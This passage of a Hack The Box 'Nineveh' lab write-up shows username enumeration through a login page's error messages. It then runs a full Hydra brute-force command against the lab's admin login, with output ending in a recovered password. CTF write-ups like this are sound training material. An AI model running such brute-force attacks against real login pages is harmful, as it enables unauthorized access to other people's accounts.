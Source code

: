 <a href="/img/blog/htb-nineveh/htb-nineveh-02.png" target="_blank"><img class="centerImgMedium" src="/img/blog/htb-nineveh/htb-nineveh-02.png"></a>

When you try to login with a name that doesn't exist (for example v3ded) you will get a message saying: `invalid username`. Notice the difference in the image below where I try to login as admin: 

<a href="/img/blog/htb-nineveh/htb-nineveh-03.png" target="_blank"><img class="centerImgMedium" src="/img/blog/htb-nineveh/htb-nineveh-03.png"></a>

The login page is telling us which users exist and which do not! After confirming that the *admin* username is correct I start a bruteforce attack via Hydra.
```console
root@EdgeOfNight:~# hydra 10.10.10.43 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -V

Hydra v8.5 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2017-12-15 15:52:15
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking service http-post-form on port 80
[DATA] with additional data /department/login.php:username=^USER^&password=^PASS^:Invalid Password!
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "abc123" - 10 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "nicole" - 11 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "daniel" - 12 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "babygirl" - 13 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "monkey" - 14 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "lovely" - 15 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "jessica" - 16 of 14344399 [child 15] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "654321" - 17 of 14344399 [child 15] (0/0)
... [Many attempts later] ...
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "candys" - 4579 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "bonnie1" - 4580 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "1truelove" - 4581 of 14344399 [child 8] (0/0)
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
```
